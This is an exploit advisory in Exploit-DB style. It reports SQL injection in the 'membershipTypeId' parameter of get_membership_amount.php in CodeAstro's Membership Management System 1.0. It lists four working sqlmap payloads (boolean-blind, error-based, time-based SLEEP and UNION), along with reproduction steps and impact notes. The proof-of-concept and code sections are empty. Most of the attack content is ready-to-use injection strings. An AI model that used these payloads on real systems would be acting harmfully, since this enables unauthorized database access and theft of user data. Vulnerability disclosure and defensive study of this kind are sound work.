



# Exploit Title: Membership Management System – SQL Injection in get_membership_amount.php (`http://localhost/codeastro/get_membership_amount.php?membershipTypeId=1`)

**Date:** 2025-08-11  
**Exploit Author:** Anonymous  
**Vendor Homepage:** https://codeastro.com/  
**Software Link:** https://codeastro.com/membership-management-system-in-php-with-source-code/  
**Version:** 1.0  
**Tested on:** PHP 7.4 on Ubuntu 20.04  

---

## Summary

A SQL Injection vulnerability exists in the `get_membership_amount.php` endpoint of **Membership Management System**. Unsanitized user input in the specified parameter is interpolated directly into an SQL query, allowing attackers to infer or extract data and, in some cases, execute stacked/time-based payloads.  
**Back-end DBMS (as detected):** MySQL >= 5.0 (MariaDB fork)  
**CWE:** CWE-89 (SQL Injection)  
**Severity:** High (placeholder — adjust once CVSS is computed)

## Affected Component & Parameter

### Affected Endpoint

- **URL:** `http://localhost/codeastro/get_membership_amount.php?membershipTypeId=1`
- **HTTP Method:** GET
- **Vulnerable File:** `get_membership_amount.php`
- **Parameter:** `membershipTypeId`
- **Vector Location:** GET

### Injection Techniques (as identified by sqlmap)
- **Type:** boolean-based blind
  - **Title:** AND boolean-based blind - WHERE or HAVING clause
  - **Payload:** `membershipTypeId=1 AND 9672=9672`
- **Type:** error-based
  - **Title:** MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
  - **Payload:** 
```
membershipTypeId=1 AND (SELECT 8406 FROM(SELECT COUNT(*),CONCAT(0x716a7a7671,(SELECT (ELT(8406=8406,1))),0x7170717671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)
```
- **Type:** time-based blind
  - **Title:** MySQL >= 5.0.12 AND time-based blind (query SLEEP)
  - **Payload:** `membershipTypeId=1 AND (SELECT 2216 FROM (SELECT(SLEEP(5)))kJxY)`
- **Type:** UNION query
  - **Title:** Generic UNION query (NULL) - 1 column
  - **Payload:** 
```
membershipTypeId=-2995 UNION ALL SELECT CONCAT(0x716a7a7671,0x654170646b6d726f6b494a63597267444a6f537a4242786f6b467457426a6955786b496c4b576568,0x7170717671)-- -
```


## Proof of Concept (Burp Repeater)



## SQLMap Summary




## Technical Description

The vulnerable parameter is reflected into the SQL statement without proper validation or prepared statements. Boolean-based blind, time-based blind (SLEEP), and/or UNION-based vectors were verified by sqlmap. This enables database enumeration and potential data exfiltration under the privileges of the application’s DB user.

## Impact

- Enumeration of database schemas, tables, and rows  
- Exposure of sensitive user/operational data  
- Potential lateral movement if credentials or session material are stored in DB

## Steps to Reproduce

1. Browse to `http://localhost/codeastro/get_membership_amount.php?membershipTypeId=1`.  
2. Intercept the request and inject the provided payload(s) into parameter `get_membership_amount.php?&<param>=...`.  
3. Observe conditional responses / time delays / injected row reflections per technique above.  
4. Confirm DBMS fingerprinting and data extraction as permitted by the app’s DB privileges.

## Vulnerable Code (Screenshot)




References
OWASP: SQL Injection Prevention Cheat Sheet

CWE-89: SQL Injection
